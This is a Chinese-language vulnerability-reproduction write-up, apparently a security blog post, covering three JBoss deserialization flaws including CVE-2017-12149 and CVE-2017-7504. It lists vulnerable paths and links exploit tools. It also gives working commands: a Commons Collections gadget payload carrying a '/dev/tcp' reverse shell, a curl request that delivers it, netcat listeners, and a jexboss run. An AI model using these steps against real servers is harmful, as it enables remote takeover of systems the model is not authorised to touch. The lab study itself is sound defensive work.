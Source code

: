 ```yaml
---
title: JBoss漏洞复现
date: 2021-01-07 21:31:32
categories: 漏洞复现
tags: JBoss
---
```


#### 背景

JBOSS是一个基于J2EE的[开放源代码](http://baike.baidu.com/item/开放源代码)的[应用服务器](http://baike.baidu.com/item/应用服务器)。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用。JBoss是一个管理EJB的容器和服务器，支持EJB 1.1、EJB 2.0和EJB3的规范。但JBoss核心服务不包括支持servlet/JSP的WEB容器，一般与Tomcat或Jetty绑定使用。

<!--more-->

#### JBoss反序列化漏洞(CVE-2017-12149)

##### 影响版本

1. JBoss 5.x
2. JBoss 6.x

##### 漏洞成因

Java反序列化错误类型引发该漏洞，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

#### 复现过程

1.JBoss主页

![](http://qn.laohuan.xin/jboss%E4%B8%BB%E9%A1%B5_2021-01-05_21-32-52.png)

2.漏洞路径

`/invoker/readonly`

访问路径出现500错误，便可能出现此漏洞

![](http://qn.laohuan.xin/Snipaste_2021-01-05_21-40-22.png)

3.工具

![](http://qn.laohuan.xin/Snipaste_2021-01-05_21-37-53.png)

#### 反序列化(CVE-2017-7504)

##### 影响版本

JBoss 4.x 及之前版本

##### 成因

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

##### 漏洞路径

`/jbossmq-httpil/HTTPServerILServlet`

##### 复现过程

1.工具套件

- [http://github.com/joaomatosf/JavaDeserH2HC](http://github.com/joaomatosf/JavaDeserH2HC)

2.`javac -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap.java`

命令执行完毕生成***ExampleCommonsCollections1WithHashMap.class**文件*

3.`java -cp .:commons-collections-3.2.1.jar ExampleCommonsCollections1WithHashMap "bash -i >& /dev/tcp/x.x.x.x/80 0>&1"`

反弹地址改为自己的VPS地址，命令执行后生成**ExampleCommonsCollections1WithHashMap.ser**

4.服务器开启NC监听

`nc -lvp 80`

5.`curl http://192.168.0.108:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @ExampleCommonsCollections1WithHashMap.ser`

![](http://qn.laohuan.xin/Snipaste_2021-01-05_22-45-44.png)

6.获得shell

![](http://qn.laohuan.xin/Snipaste_2021-01-05_22-41-52.png)

#### JBoss JMXInvokerServlet 反序列化漏洞

##### 成因

这是经典的JBoss反序列化漏洞，JBoss在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

##### 验证方式

访问IP+端口/invoker/JMXInvokerServlet，只要有文件下载，目标网站即存在JBoss JMXInvokerServlet 反序列化漏洞

##### 复现过程

1.工具

[[DeserializeExploit.jar](http://cdn.vulhub.org/deserialization/DeserializeExploit.jar)]

2.工具

[http://github.com/joaomatosf/jexboss](http://github.com/joaomatosf/jexboss)

`python jexboss.py -u http://192.168.0.108:8080`

![](http://qn.laohuan.xin/Snipaste_2021-01-06_23-13-47.png)

输入yes

填写反弹IP端口

![](http://qn.laohuan.xin/Snipaste_2021-01-06_23-15-01.png)

启动NC监听

`nc -lvp 80`

反弹成功

![](http://qn.laohuan.xin/Snipaste_2021-01-06_23-12-50.png)

参考链接

- [http://github.com/vulhub/vulhub/tree/master/jboss](http://github.com/vulhub/vulhub/tree/master/jboss)
- [http://www.pianshen.com/article/11401315597/](http://www.pianshen.com/article/11401315597/)
- [http://www.cnblogs.com/yuzly/p/11240101.html](http://www.cnblogs.com/yuzly/p/11240101.html)
- [http://www.cnblogs.com/iamver/p/11282928.html](http://www.cnblogs.com/iamver/p/11282928.html)
- [http://www.cnblogs.com/sevck/p/7874438.html](http://www.cnblogs.com/sevck/p/7874438.html)


